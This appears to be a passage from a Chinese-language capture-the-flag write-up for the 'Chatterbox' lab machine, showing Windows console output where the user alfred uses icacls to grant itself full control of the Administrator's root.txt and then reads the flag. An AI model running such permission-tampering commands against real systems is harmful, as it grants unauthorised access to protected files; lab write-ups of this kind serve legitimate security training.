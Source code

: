 ![截图](ec1795b2643f8ab809843600b10d2c3a.png)

![截图](92fe8565b0a7097167404f08b6ac2a18.png)

![截图](c33335cc18d193a968e7a3371036b0c5.png)

只是对root.txt没有读权限

```
c:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

只需要对alfred赋予完全控制权限操作root.txt，就可以操作读取该文件

```
c:\Users\Administrator\Desktop>icacls root.txt /grant alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
4148f631....
```
